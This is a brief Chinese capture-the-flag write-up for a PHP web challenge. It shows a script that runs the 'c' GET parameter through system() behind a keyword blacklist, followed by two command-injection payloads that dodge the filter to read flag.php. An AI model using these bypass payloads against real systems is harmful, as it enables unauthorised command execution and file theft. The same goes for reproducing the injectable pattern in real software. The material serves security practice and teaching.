

# 知识点
# 思路
源码
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```php
方法一 ?c=nl<fla''g.php||
方法二 ?c=tac<fla''g.php%0a
```

